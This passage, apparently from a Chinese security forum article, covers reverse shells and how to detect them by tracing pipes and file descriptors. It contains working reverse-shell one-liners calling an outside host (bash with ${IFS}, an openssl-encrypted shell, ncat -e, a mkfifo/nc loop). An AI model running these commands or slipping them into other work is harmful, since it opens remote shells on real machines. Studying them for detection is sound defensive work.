 ```bash
/bin/bash -c bash${IFS}-i${IFS}>& 172.16.0.104/1234<&1
```

### 2. 流量加密（双向）

```bash
mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect 172.16.0.104:1234 > /tmp/f
```

<https://www.cnblogs.com/heycomputer/articles/10697865.html>

这里主要讨论的是openssl流量的加密，管道在下面会分析

### 3. 中转-管道

所谓“中转”，就是shell的标准输入、输出、错误**不直接**重定向到socket  
中，而是在中间加入一个东西，即管道，然后再由管道连接 socket

不同进程之间通过管道相连接，最后通过多次管道定向至bash的输入输出

#### Ncat（双向）

```bash
ncat 10.0.11.6 1234 -e /bin/bash
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-4c3e201dd65871906ad8f74e3732f6d2ccf2f327.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-ad305a156eb500038c09cafb405475744bba8d57.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-0da03a86a1ac630357d8ae8c8217eb7ec89d691e.png)

双向证明：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-997aa84953fd46ddb3f306a16cabcbe52808a877.png)

#### mkfifo（双向）

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 172.16.0.104 1234 > /tmp/f
```

mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给`/bin/sh`，sh会执行管道里的命令并将标准输出和标准错误输出结果通过`nc`传到该管道，由此形成了一个回路

在某些变形的场景下，可能经过层层中转，但无论经过几层最终都会形成一条流动的数据通道。通过跟踪fd和进程的关系可以覆盖

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-012191f3110ead4135c8c17ad9c8c6e6f83a8ae8.png)

如下，假设我们要追查`bash -i`：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7276e67210c199a27c67a02913be2f3db65fab70.png)

上面查了639226管道，只查到了cat，下面查另一个管道639228，最终查到了nc对应的socket

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-39e7dcd05e2ae4dc804e39649940b05d852c7015.png)
